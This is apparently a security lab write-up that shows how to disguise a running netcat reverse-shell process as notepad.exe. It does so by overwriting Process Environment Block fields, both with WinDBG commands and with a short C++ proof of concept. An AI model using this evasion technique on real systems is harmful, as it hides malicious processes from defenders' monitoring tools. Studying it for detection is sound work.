


# Masquerading Processes in Userland with \_PEB

In this short lab I am going to use a WinDBG to make my malicious program pretend to be a notepad \(hence masquerading\) when inspecting system's running processes with tools like Sysinternals ProcExplorer and similar. Note that his is not a code injection exercise. 

This is possible, because the information about the process \(commandline arguments, image location, loaded modules, etc\) are stored in Process Environment Block \(PEB\). PEB has a corresponding memory structure called `_PEB` which is accessible & writeable \(given right privileges - `SeDebugPrivilege`\) from the userland.

This lab builds on the previous lab:



## Overview

For this demo, my malicious binary is going to be an `nc.exe` -  a rudimentary netcat reverse shell spawned by cmd.exe and the PID of `4620`:



Using WinDBG, we will make the nc.exe looks like notepad.exe - this will be reflected in the `Path` field and the binary icon like so - note the final result below - it is the same nc.exe process \(PID 4620\) only this time masquerading as a notepad.exe:


## Execution

Let's first look at the \_PEB structure for the nc.exe process:

```csharp
dt _peb @$peb
```


Note that at the offset `0x020` of the PEB, there is another structure which is very interesting to us -  `_RTL_USER_PROCESS_PARAMETERS`, which contains the process information. Let's inspect it further:

```csharp
dt _RTL_USER_PROCESS_PARAMETERS 0x00000000`005e1f
```


The offset `0x060` of `_RTL_USER_PROCESS_PARAMETERS` is also of interest to us - it points to a structure `_UNICODE_STRING` that contains the `ImagePathName` field which signifies the name/full path to our malicious binary nc.exe.

Let's inspect that structure:

```text
dt _UNICODE_STRING 0x00000000`005e1f60+60
```


`_UNICODE_STRING` structure describes the lenght of the string and also points to the actual memory location ``0x00000000`005e280e`` that contains the string to our malicious binary.

Let's confirm the string location by dumping the bytes at ``0x00000000`005e280e`` by issuing:

```text
0:002> du 0x00000000`005e280e
00000000`005e280e  "C:\tools\nc.exe"
```


Now that we have confirmed that ``0x00000000`005e280e`` indeed contains a path to the binarry, let's try to write a new string to that memory address. Let's try swapping the nc.exe with a path to the notepad.exe binary:

```text
eu 0x00000000`005e280e "C:\\Windows\\System32\\notepad.exe"
```



If you are following along, do not forget to add NULL byte at the end of your new string to terminate it:

```text
eb 0x00000000`005e280e+3d 0x0
```


Let's check the `_UNICODE_STRING` structure again to see if the changes took effect:

```text
dt _UNICODE_STRING 0x00000000`005e1f60+60
```


We can see that our string is getting truncated. This is because the Lenght value in the `_UNICODE_STRING` structure is set to 0x1e \(30 decimal\) which equals to 15 unicode characters:


Let's increase that value to 0x3e to accomodate our longer string pointing to notepad.exe binary and check the structure again:

```text
eb 0x00000000`005e1f60+60 3e
dt _UNICODE_STRING 0x00000000`005e1f60+60
```

The string `Buffer` is no longer getting truncated:


For the sake of this exercise, we can clear out the commandline arguments like so:

```text
eb 0x00000000`005e1f60+70 0x0
```

The offset of `0x70` is concerned with a `Buffer` length in another `_UNICODE_STRING` structure holding a string of a commandline arguments the process was launched. 

Now if we inspect the process using Process Explorer, we can see that our nc.exe now look slike a notepad:


## A simple PoC

As part of this simple lab, I wanted to write a simple C++ proof of concept that would make the running program masquerade itself as a notepad. Here is the code:



```cpp
#include "stdafx.h"
#include "Windows.h"
#include "winternl.h"

typedef NTSTATUS(*MYPROC) (HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);

int main()
{
	HANDLE h = GetCurrentProcess();
	PROCESS_BASIC_INFORMATION ProcessInformation;
	ULONG lenght = 0;
	HINSTANCE ntdll;
	MYPROC GetProcessInformation;
	wchar_t commandline[] = L"C:\\windows\\system32\\notepad.exe";
	ntdll = LoadLibrary(TEXT("Ntdll.dll"));
	GetProcessInformation = (MYPROC)GetProcAddress(ntdll, "NtQueryInformationProcess");
	(GetProcessInformation)(h, ProcessBasicInformation, &ProcessInformation, sizeof(ProcessInformation), &lenght);
	ProcessInformation.PebBaseAddress->ProcessParameters->CommandLine.Buffer = commandline;
	ProcessInformation.PebBaseAddress->ProcessParameters->ImagePathName.Buffer = commandline;

	return 0;
}
```



..and here is the compiled running program being inspected with ProcExplorer - we can see that the masquerading is achieved successfully:


## Observations

Switchingf back to the nc.exe, if we check the `!peb` data, we can see a notepad.exe is being shown in the  `Ldr.InMemoryOrderModuleList` memory structure - pretty cool:



Note that even though it shows in the loaded modules that notepad.exe was loaded, it still does not mean that there was an actual notepad.exe process created and sysmon logs prove this:




